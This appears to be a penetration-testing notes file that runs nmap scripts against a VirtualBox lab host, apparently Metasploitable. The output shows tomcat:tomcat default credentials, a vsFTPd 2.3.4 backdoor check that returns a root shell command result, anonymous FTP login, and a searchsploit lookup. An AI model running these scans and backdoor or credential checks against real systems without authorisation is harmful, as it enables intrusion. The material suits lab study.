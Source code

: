 # Finding Vulnerability with nmap scripts

```nmap --script auth <Target ip> -sS```

# tomcat exploit

```
Post-scan script results:
| creds-summary: 
|   192.168.87.109: 
|     8180/unknown: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

```nmap -script malware 192.168.87.109 -sS -F```

```nmap -script banner 192.168.87.109 -sS -F```

```
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       https://www.securityfocus.com/bid/48539
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.87.109
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.87.109:80/dvwa/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=dns-lookup.php
|     Form id: iddnslookupform
|     Form action: index.php?page=dns-lookup.php
|     
|     Path: http://192.168.87.109:80/mutillidae/index.php?page=register.php
|     Form id: id-bad-cred-tr
|_    Form action: index.php?page=register.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
513/tcp  open  login
514/tcp  open  shell
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
8009/tcp open  ajp13
MAC Address: 08:00:27:42:FE:60 (Oracle VirtualBox virtual NIC)
```

```nmap -script ftp-anon.nse 192.168.87.109```

```
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

FTP anonymous

ftp 192.168.87.109

Connected to 192.168.87.109.
220 (vsFTPd 2.3.4)
Name (192.168.87.109:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

### Analysis and Searchsploit

```searchsploit UnrealIRCd```